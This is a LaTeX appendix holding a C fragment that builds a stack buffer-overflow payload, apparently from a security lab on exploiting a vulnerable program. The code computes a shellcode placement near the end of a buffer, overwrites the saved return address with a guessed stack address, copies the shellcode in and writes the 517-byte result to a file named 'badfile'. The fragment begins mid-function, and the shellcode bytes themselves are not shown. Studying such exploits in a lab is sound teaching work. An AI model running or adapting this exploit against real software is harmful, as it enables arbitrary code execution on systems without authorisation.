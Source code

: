 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
	/* Make sure is multiple of 4 */ 
	while(fcP % 4 != 0) {
		fcP += 1;
	}
	
	printf ("Using Stack pointer at address: %x\n", fcP);
	printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
	
	/* Compute how far we can palce shell code, we want it towards the end of buffer */
	long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
	printf ("I will start writing to %08x\n", address_to_copy_to);
	
	/* We use address of buffer as reference, but we want to jump a bit more into the stack,
	yet not too far */
	fcP += 80;
	
	/* Place the address we want to in a position 
	that would overwrite return address (16 bytes into stack) */
	long addr = fcP;
	long *ptr = (long*)(buffer + 16);
	*(ptr) = addr;
	
	/* Copy shellcode */
	memcpy(address_to_copy_to, shellcode, shell_code_size);
	
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
\end{lstlisting}

\end{appendices}
\end{document}
